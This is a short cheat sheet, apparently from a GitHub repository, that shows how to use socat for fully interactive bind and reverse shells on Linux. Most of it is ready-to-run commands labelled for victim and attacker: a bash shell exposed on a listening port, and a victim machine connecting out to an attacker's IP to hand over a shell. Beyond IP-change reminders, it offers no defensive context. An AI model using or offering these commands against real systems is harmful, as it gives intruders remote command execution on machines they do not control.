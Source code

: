 # Introduction
A great tool for having full interactive reverse and bind shells. I am assuming that we are using socat on Linux and not Windows.

## Installation on Ubuntu
```bash
sudo apt update && sudo apt install socat -y
```
## Usage
### Bind shell
We must first listen on the victim's machine.

Victim
```bash
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp-listen:4444
```

And now we connect as an attacker to the victim's machine.

Attacker
```bash
socat file:`tty`,raw,echo=0 tcp:192.168.92.134:4444
```

> [!WARNING]
> 192.168.92.134 is the IP of the victim, make sure to change the IP to the one you want.
### Reverse shell
We must first listen on the attacker's machine.

Attacker
```bash
socat file:`tty`,raw,echo=0 tcp-listen:4444
```

And now the victim's machine connects to the attacker.

Victim
```bash
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.92.129:4444
```

> [!WARNING]
> 192.168.92.129 is the IP of the attacker, make sure to change the IP to the one you want.